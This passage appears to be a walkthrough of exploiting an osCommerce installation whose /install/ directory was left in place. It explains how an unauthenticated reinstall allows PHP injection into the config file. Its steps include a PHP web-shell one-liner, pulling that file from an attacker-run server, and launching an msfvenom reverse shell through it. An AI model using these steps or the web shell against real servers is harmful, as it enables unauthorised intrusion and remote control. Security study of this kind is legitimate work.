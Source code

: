![image](/posts/res/BP8.png) 


 If an Admin has not removed the /install/ directory as advised from an osCommerce installation, it is possible  for an unauthenticated attacker to reinstall the page. The installation of osCommerce does not check if the page is already installed and does not attempt to do any authentication. It is possible for an attacker to directly execute the "install_4.php" script, which will create the config file for the installation. It is possible to inject PHP code into the config file and then simply executing the code by opening it.

so to use this exploit code we must setup a few things 

- create a PHP script asking for the system cmd: `<?php echo shell_exec($_GET["cmd"]); ?>` name it _shell.php_
- edit the exploit python file to include the victim IP and to download the _shell.php_ file from the attacker
- start a python server and run the exploit
- navigate to the _/install/includes_ and execute the new _configure.php_ file
- navigate to the PHP script and enter a command to test if it worked at _shell.php?cmd=whoami_
- If it worked: create a reverse shell with `msfvenom`
- change the path on _oscomm.py_ to the reverse shell
- run the python exploit
- navigate to _configure.php_ to upload the reverse shell
- navigate to _shell.php_ and execute the reverse shell: _shell.php?cmd=shell.exe_
- listen for shell

first we start by adding the php one liner code to a file called shell.php 
`<?php echo shell_exec($_GET["cmd"]); ?>`


![image](/posts/res/BP9.png) 
